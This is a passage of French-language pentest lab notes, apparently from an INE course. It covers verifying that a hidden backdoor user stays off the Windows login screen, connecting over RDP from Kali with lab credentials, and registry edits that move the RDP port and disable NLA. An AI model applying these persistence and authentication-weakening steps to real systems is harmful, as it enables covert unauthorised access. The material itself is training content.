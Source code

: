 ### Vérification du masquage
```cmd
# L'utilisateur ne doit PAS apparaître ici :
# - Écran de connexion Windows
# - Menu démarrer → changer d'utilisateur
# - Panneau de configuration → Comptes utilisateurs

# Mais visible ici :
net user                                    # Liste tous les users
lusrmgr.msc                                # Gestionnaire d'utilisateurs
wmic useraccount list brief                # WMI query
```

---

## 🖥️ 7. Accès RDP et configuration

### Connexion RDP depuis Kali
```bash
# Avec xfreerdp (recommandé)
xfreerdp /u:alice /p:hack_123321 /v:demo.ine.local
xfreerdp /u:alice /p:hack_123321 /v:demo.ine.local /cert-ignore
xfreerdp /u:alice /p:hack_123321 /v:demo.ine.local:3389 /f

# Avec rdesktop
rdesktop -u alice -p hack_123321 demo.ine.local
rdesktop -u alice -p hack_123321 -f demo.ine.local

# Accepter le certificat si demandé
Y [Accept the certificate]
```

### Options RDP avancées
```bash
# Résolution personnalisée
xfreerdp /u:alice /p:hack_123321 /v:target /size:1024x768

# Partage de répertoire
xfreerdp /u:alice /p:hack_123321 /v:target /drive:share,/tmp

# Copier-coller activé
xfreerdp /u:alice /p:hack_123321 /v:target +clipboard

# Port RDP personnalisé
xfreerdp /u:alice /p:hack_123321 /v:target:13389
```

### Configuration RDP côté Windows
```cmd
# Vérifier statut RDP
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

# Changer port RDP (optionnel)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v PortNumber /t REG_DWORD /d 13389

# Désactiver NLA (si problème connexion)
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
```

---